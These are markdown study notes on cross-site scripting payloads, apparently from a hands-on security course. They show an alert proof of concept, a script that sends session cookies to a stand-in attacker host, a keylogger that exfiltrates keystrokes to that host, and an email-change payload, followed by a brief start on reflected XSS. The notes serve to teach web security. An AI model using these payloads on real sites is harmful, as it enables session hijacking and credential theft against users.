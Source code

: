 # XSS Payloads

## What is a payload?

- **Payload in XSS**: JavaScript code executed on the target's computer.
- **Two parts**:
    - **Intention**: Desired action of the JavaScript.
    - **Modification**: Code changes for execution in different scenarios.

## Examples of XSS Intentions

### Proof Of Concept

- Demonstrate XSS by showing an alert box.
    ```html
    <script>alert('XSS');</script>
    ```

### Session Stealing

- Steal user's session by sending their cookie to an attacker's site.
    ```html
    <script>fetch('https://hacker.thm/steal?cookie=' + btoa(document.cookie));</script>
    ```

### Key Logger

- Log keystrokes and send them to an attacker's site.
    ```html
    <script>document.onkeypress = function(e) { fetch('https://hacker.thm/log?key=' + btoa(e.key) );}</script>
    ```

### Business Logic

- Change user's email address via JavaScript.
    ```html
    <script>user.changeEmail('attacker@hacker.thm');</script>
    ```
    - Allows for a reset password attack.

## Reflected XSS

- Occurs when user data in an HTTP request is included in the webpage source without validation.

### Example Scenario

- Error message on incorrect input taken from query string parameter.
- No content check allows malicious code insertion.
